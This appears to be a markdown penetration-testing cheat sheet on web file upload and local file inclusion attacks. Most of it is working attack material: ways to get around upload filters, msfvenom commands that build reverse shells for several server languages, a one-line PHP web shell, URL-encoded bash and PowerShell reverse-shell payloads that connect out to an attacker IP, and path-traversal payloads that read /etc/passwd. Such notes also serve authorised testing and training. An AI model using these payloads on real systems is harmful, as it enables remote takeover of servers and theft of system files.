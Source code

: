 ## File upload
- Bypass filters:
    - Check if it's a whitelist, or a blacklist filter by passing something like: `jpg_but_bullshit.etrhbdfeqt`.
    - Use an inner extension: `file.jpg.php`
    - Add magic numbers: https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5

- Msfvenom common web reverse shells:
```bash
msfvenom -p php/reverse_php LHOST=<ip> LPORT=443 -f raw > shell.php
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=443 -f asp > shell.asp
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=443 -f aspx > shell.aspx
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=443 -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=443 -f war > shell.war
```
- Simple PHP reverse shell:
```php
<?php system($_GET['c']); ?>
```
```
<website>/<filename>?c=bash+-c+"bash+-i+>%26+/dev/tcp/<ip>/443+0>%261"
```
```
<website>/<filename>?c=powershell+-c+"$client+%3d+New-Object+System.Net.Sockets.TCPClient('<ip>',443)%3b$stream+%3d+$client.GetStream()%3b[byte[]]$bytes+%3d+0..65535|%25{0}%3bwhile(($i+%3d+$stream.Read($bytes,+0,+$bytes.Length))+-ne+0){%3b$data+%3d+(New-Object+-TypeName+System.Text.ASCIIEncoding).GetString($bytes,0,+$i)%3b$sendback+%3d+(iex+$data+2>%261+|+Out-String+)%3b$sendback2+%3d+$sendback+%2b+'PS+'+%2b+(pwd).Path+%2b+'>+'%3b$sendbyte+%3d+([text.encoding]%3a%3aASCII).GetBytes($sendback2)%3b$stream.Write($sendbyte,0,$sendbyte.Length)%3b$stream.Flush()}%3b$client.Close()"
```

## File inclusion
### Local file inclusion _(LFI)_
- Fuzzing URL params:
```bash
wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/Traversal.txt --basic <username>:<password> -X <http_method> -u <url>?<param>=FUZZ
```
- Basic PoC:
```bash
../../../../../../../../../etc/passwd
../../../../../../../../../etc/passwd%00
....//....//....//....//....//....//....//....//....//etc/passwd
....//....//....//....//....//....//....//....//....//etc/passwd%00
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd%00
```
- Reading a PHP file instead of executing it:
```php
include("php://filter/convert.base64-encode/resource=<path_to_php_script>");
```
